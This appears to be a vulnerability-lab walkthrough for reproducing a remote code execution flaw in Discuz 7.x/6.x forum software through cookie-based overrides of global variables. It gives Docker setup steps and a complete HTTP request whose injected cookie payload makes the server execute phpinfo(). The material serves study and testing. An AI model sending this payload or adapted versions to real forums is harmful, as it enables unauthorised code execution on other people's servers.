


Discuz 7.x/6.x Remote Code Execution via Global Variable Override¶
Discuz is a popular forum software widely used in China. A remote code execution vulnerability exists in Discuz 7.x/6.x versions due to insufficient global variable protection.
In PHP 5.3.x, the default value of request_order in php.ini is set to "GP", which means $_REQUEST no longer includes $_COOKIE by default. This allows attackers to override global variables through cookies by injecting $GLOBALS, leading to remote code execution.
References:
Environment Setup¶
Execute the following command to start Discuz 7.2:
docker compose up -d
After starting the container, visit http://your-ip:8080/install/ to install Discuz. Use the following database settings:
- Database Host:
db - Database Name:
discuz - Username:
root - Password:
root

Vulnerability Reproduction¶
After installation, find an existing post and send a request with the following cookie that contains the payload GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();:
GET /viewthread.php?tid=10&extra=page%3D1 HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
Connection: close
The phpinfo() function will be successfully executed, demonstrating the remote code execution vulnerability:

Note: Some articles online claim that a post with an emoji comment is required, but the actual test found that it was not necessary, and the reason still needs to be analyzed from the code.